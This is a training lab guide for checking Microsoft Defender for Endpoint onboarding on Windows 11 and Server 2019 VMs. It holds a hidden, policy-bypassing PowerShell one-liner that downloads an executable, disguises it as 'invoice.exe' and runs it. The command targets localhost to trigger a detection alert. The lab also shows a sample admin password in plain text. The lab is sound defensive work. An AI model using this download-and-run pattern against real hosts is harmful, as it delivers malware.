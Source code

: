 **Lab 2 - Validating Endpoint Onboarding: Conducting a PowerShell
Detection Test with Microsoft Defender for Endpoint**

**Introduction**

To verify that the device is properly onboarded and reporting to the
service, run the detection script on the newly onboarded device. If
successful, the new alert will appear in a few minutes.

**Objective**

- To verify the successful onboarding of Microsoft Defender for Endpoint
  on Windows 11 and Windows Server 2019 devices by conducting a
  PowerShell detection test.

# Exercise 1: Run a detection test on a newly onboarded Microsoft Defender for Endpoint devices

## Task 1: Verify Microsoft Defender for End point onboarding of a Windows 11 device using a PowerShell detection test

1\. In Azure portal search bar, type virtual machines, then click on
Virtual machines under Services.

![](./media/image1.png)

2\. In the **Virtual machines** page, navigate and click on **testvm2**.

![](./media/image2.png)

3\. On the **testvm2** page, if your virtual machine is stopped, then
click on the **Start** button as shown in the below image.

![](./media/image3.png)

4\. In **testvm2** virtual machine page, navigate and click on
**Connect** on the left side navigation menu, scroll down to **Native
RDP** tile, and click on the **Download RDP file**.

![](./media/image4.png)

5\. In **testvm2.rdp could harm your device. Do you want to keep it
anyway?** dialog box, click on **Keep** button.

![A screenshot of a computer Description automatically
generated](./media/image5.png)

6.  On **The publisher of this remote connection can’t be identified. Do
    you want to connect anyway?** dialog box, click on **Connect**
    button.

> ![A screenshot of a computer Description automatically
> generated](./media/image6.png)

7.  On **Enter your credentials** dialog box, enter the password (here,
    **Administrator5801@\***) and click on the **OK** button.

![A screenshot of a computer screen Description automatically
generated](./media/image7.png)

8.  On **The identity of the remote computer cannot be verified. Do you
    want to connect anyway?** dialog box, click on **Yes** button.

![A screenshot of a computer error message Description automatically
generated](./media/image8.png)

9.  Type **cmd** in the windows search bar, navigate to **Command
    Prompt**, select **Run as administrator**.

![](./media/image9.png)

10. In the command prompt, enter the following code and press the
    **Enter** button.

Copycode

powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden
$ErrorActionPreference= 'silentlycontinue';(New-Object
System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe',
'C:\\test-WDATP-test\\invoice.exe');Start-Process
'C:\\test-WDATP-test\\invoice.exe'

11. The Command Prompt window closes automatically. Wait for 5-10
    minutes. If successful, a new alert appears in the portal for the
    onboarded device.

![A screenshot of a computer Description automatically
generated](./media/image10.png)

12. Go back to **Microsoft Defender** portal and refresh the page.
    Navigate and click on **Incidents & alerts**, then click on
    **Alerts**. You’ll see the Alerts related to the execution of
    **Suspicious PowerShell Command**.

![](./media/image11.png)

## Task 2: Verify Microsoft Defender for Endpoint onboarding of a Windows Server 2019 server device using a PowerShell detection test

> 1\. In the Azure portal search bar, type virtual machine, then
> navigate and click on **Virtual machines** under **Services**.
>
> ![A screenshot of a computer Description automatically
> generated](./media/image12.png)
>
> 2\. In the **Virtual machines** page, navigate and click on
> **TESTSERVER1.**

![A screenshot of a computer Description automatically
generated](./media/image13.png)

3\. Click on the **Start** button if the VM is stopped.

![A screenshot of a computer Description automatically
generated](./media/image14.png)

4\. In **TESTSERVER1** virtual machine page, navigate and click on
**Connect** on the left side navigation menu, then click on **Select**
under **Native RDP** section.

![A screenshot of a computer Description automatically
generated](./media/image15.png)

5.  On **TESTSERVER1.rdp could harm your device. Do you want to keep it
    anyway?** dialog box, click on **Keep** button.

> ![A screenshot of a computer Description automatically
> generated](./media/image16.png)

6.  On **TESTSERVER1.rdp** file, click on **Open file** link.

> ![](./media/image17.png)

7.  On **The publisher of this remote connection can’t be identified. Do
    you want to connect anyway?** dialog box, click on **Connect**
    button.

> ![A screenshot of a computer Description automatically
> generated](./media/image18.png)

8.  On **Enter your credentials** dialog box, enter the password (here,
    **Administrator5801@\***) and click on the **OK** button.

![](./media/image19.png)

9.  On **The identity of the remote computer cannot be verified. Do you
    want to connect anyway?** dialog box, click on **Yes** button.

![](./media/image20.png)

10. The TESTSERVER1 VM will be opened. Minimize the **Server Manager –
    Dashboard**.

![A screenshot of a computer Description automatically
generated](./media/image21.png)

11. Type **cmd** in the windows search bar, navigate to **Command
    Prompt** and right click on it, then select **Run as
    administrator**.

![](./media/image22.png)

12. In the command prompt, enter the following code and press the
    **Enter** button.

Copy code

**powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden
$ErrorActionPreference= 'silentlycontinue';(New-Object
System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe',
'C:\\test-WDATP-test\\invoice.exe');Start-Process
'C:\\test-WDATP-test\\invoice.exe'**

13. The Command Prompt window closes automatically. Wait for 5-10
    minutes. If successful, a new alert appears in the portal for the
    onboarded device.

![A screenshot of a computer Description automatically
generated](./media/image23.png)

14. Go back to **Microsoft Defender** portal and refresh the page.
    Navigate and click on **Incidents & alerts**, then click on
    **Alerts**. You’ll see the Alerts related to the execution of
    **Suspicious PowerShell Command**.

![](./media/image24.png)

**Summary**

In this lab, you’ve executed a PowerShell detection test on the
onboarded Windows 11 and Windows Server 2019 devices and checked the
generated alerts to validate endpoint onboarding.
